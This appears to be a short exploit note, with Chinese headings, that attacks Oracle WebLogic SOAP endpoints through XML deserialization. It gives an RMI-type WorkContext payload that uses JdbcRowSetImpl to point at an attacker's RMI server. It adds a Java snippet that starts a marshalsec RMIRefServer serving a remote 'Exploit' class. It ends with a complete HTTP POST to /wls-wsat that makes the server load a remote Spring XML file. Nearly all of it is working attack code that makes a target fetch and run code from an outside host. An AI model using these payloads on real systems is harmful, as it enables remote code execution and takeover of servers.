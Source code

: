 payload

>rmi类型

```
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <java><class><string>com.sun.rowset.JdbcRowSetImpl</string><void>
<property name="dataSourceName"><string>rmi://192.168.132.1:9998/aa</string></property><property name="autoCommit"><boolean>true</boolean></property>
</void></class>
</java>
 </work:WorkContext>
 </soapenv:Header> <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```
```
import com.google.inject.internal.cglib.core.$CodeGenerationException;
import marshalsec.jndi.RMIRefServer;

import java.io.IOException;
import java.net.URL;

public class test {
    public static void main(String[] args) {
        try{
            URL url=new URL("http://192.168.132.1/#Exploit");
            RMIRefServer RMIRefServer=new RMIRefServer(9998,url);
            RMIRefServer.run();
        }
        catch(IOException e ){
            return;
        }
    }
}


```


>ClassPathXmlApplicationContext类

```
POST /wls-wsat/CoordinatorPortType11;/../x HTTP/1.1
Content-Type: text/xml
SOAPAction: ""
Content-Length: 585
Host: 192.168.132.131
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <class><string>com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext</string><void><string>
http://192.168.132.1/1.xml
</string></void></class>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>

```